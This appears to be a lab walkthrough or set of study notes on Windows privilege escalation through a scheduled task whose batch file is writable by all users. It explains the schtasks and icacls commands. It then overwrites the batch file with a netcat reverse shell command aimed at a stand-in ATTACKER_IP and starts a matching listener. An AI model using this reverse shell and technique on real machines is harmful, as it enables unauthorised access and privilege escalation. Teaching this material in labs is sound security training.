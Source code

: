Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:
```shell-session
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```
 
 Breakdown of the Command:
- **`schtasks`**:
    - This is the primary command used to create, delete, configure, or display scheduled tasks on a local or remote machine.
- **`/query`**:
    - This option tells `schtasks` to display or query information about tasks. When used without any additional parameters, it shows a list of all scheduled tasks.
- **`/tn vulntask`**:
    - **`/tn`** stands for "task name."
    - **`vulntask`** is the specific name of the task you want to query. This parameter restricts the output to details about the task named `vulntask`.
- **`/fo list`**:
    - **`/fo`** stands for "format."
    - **`list`** specifies the format of the output. The available formats are:
        - `TABLE`: Displays the output in a table format.
        - `LIST`: Displays the output in a list format, with each property on a separate line (this is the format chosen in your command).
        - `CSV`: Displays the output in a comma-separated values format, which is useful for exporting the data.
- **`/v`**:
    - **`/v`** stands for "verbose."
    - This option provides detailed information about the task, including settings, triggers, actions, conditions, and more.

You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use `icacls`:
```shell-session
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

Breakdown of the Command:
- **`icacls`**:
    - This is the command-line utility in Windows used to display or modify the access control lists (ACLs) for files and directories. ACLs define the permissions that users and groups have for accessing or modifying the file or directory.
- **`c:\tasks\schtask.bat`**:
    - This is the file path to the specific file or directory you want to query or modify. In this case, it's targeting a batch file named `schtask.bat` located in the `C:\tasks\` directory.

As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, `nc64.exe` can be found on `C:\tools`. Let's change the bat file to spawn a reverse shell:
```shell-session
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

 Explanation of the Command in the Batch File:
- If `schtask.bat` is executed, it will attempt to run `nc64.exe` (Netcat) from the `c:\tools\` directory.
- The `-e cmd.exe` part tells Netcat to launch a command shell (`cmd.exe`) when a connection is made.
- The `ATTACKER_IP 4444` part tells Netcat to connect to the specified IP address (`ATTACKER_IP`) on port `4444`.

We then start a listener on the attacker machine on the same port we indicated on our reverse shell:
```
nc -lvp 4444
```

